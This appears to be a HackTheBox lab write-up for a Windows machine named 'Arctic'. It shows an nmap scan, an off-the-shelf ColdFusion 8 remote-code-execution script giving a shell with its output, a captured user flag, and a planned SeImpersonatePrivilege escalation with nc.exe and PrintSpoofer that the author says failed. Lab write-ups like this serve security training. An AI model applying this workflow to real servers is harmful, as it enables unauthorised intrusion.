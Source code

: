 ```yaml
---
title: "Artic"
date: 2025-06-08
categories:
  - HackTheBox
  - Windows
tags:
  - HackTheBox
  - Windows
---
```


# Artic

![](../assets/Pasted%20image%2020250608193154.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.11 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-08 19:33 CEST
Nmap scan report for 10.10.10.11
Host is up (0.041s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|2012|8.1 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (92%), Microsoft Windows Vista or Windows 7 (92%), Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   39.95 ms 10.10.14.1
2   40.27 ms 10.10.10.11

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 166.34 seconds
```

Browsing `port` `8500`

![](../assets/Pasted%20image%2020250608195223.png)

Exploring some ColdFusion files, we see the version: `8`

![](../assets/Pasted%20image%2020250608200629.png)

## Initial Access

Using `searchsploit`, we can get an RCE for version `8`.

![](../assets/Pasted%20image%2020250609182914.png)

Executing it, we get a shell.

```shell
$ python 50057.py

Generating a payload...
Payload size: 1497 bytes
Saved as: b7172b096b3d440aa353a65a5d0acac3.jsp

...


...

Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

Get the flag:

```shell
C:\Users\tolis\Desktop>type user.txt
type user.txt
f7e361c9b62bb18b40ca4fc348bf549f
```

## Privilege Escalation

```shell
whoami /priv                                                                                           
                                                                                                       
PRIVILEGES INFORMATION                                                                                 
----------------------                                                                                 
                                                                                                       
Privilege Name                Description                               State                          
============================= ========================================= ========                       
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled                        
SeImpersonatePrivilege        Impersonate a client after authentication Enabled                        
SeCreateGlobalPrivilege       Create global objects                     Enabled                        
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

The user has `SeImpersonatePrivilege`, so transfer `nc.exe` and `PrintSpoofer` to the machine.

!!! bug

    I can't get it to work.